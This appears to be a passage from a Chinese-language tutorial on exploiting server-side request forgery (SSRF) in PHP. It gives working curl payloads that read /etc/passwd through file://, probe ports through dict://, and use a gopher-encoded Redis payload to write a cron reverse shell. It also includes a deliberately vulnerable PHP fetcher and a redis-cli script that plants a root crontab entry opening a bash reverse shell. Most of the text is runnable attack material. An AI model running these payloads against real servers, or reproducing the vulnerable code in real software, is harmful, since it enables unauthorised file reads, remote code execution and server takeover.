 # 利用file协议任意文件读取
curl -v 'http://sec.com:8082/sec/ssrf.php?url=file:///etc/passwd'

# 利用dict协议查看端口
curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'

# 利用gopher协议反弹shell
```
curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
```
漏洞代码ssrf2.php

限制协议为HTTP、HTTPS
设置跳转重定向为True（默认不跳转）
```
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, True);
    // 限制为HTTPS、HTTP协议
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
?>
```
此时，再使用dict协议已经不成功。

http://sec.com:8082/sec/ssrf2.php?url=dict://127.0.0.1:6379/info
3. 如何转换成gopher协议
刚一开始看到这个协议，不知道如何转换。希望写点经验给大家，有不对的地方，还望指出。

3.1 redis反弹shell
先写一个redis反弹shell的bash脚本如下：
我不喜欢用flushall，太不友好。
```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```
该代码很简单，在redis的第0个数据库中添加key为1，value为\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n\n的字段。最后会多出一个n是因为echo重定向最后会自带一个换行符。
